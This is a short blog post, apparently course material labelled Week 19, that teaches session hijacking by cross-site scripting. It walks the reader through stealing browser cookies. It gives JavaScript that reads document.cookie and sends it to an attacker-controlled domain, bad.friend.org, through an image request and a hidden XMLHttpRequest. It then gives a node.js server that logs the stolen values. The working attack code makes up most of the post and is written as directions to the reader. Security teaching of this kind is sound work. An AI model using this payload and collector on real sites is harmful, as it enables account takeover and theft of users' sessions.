 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, exploit]
---
```


Previously, we have demonstrated how to use ARP poison attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user, low-profile payload

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://bad.friend.org/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

    let i = req.url.indexOf('?');
    if (i !== -1)
        console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

    res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
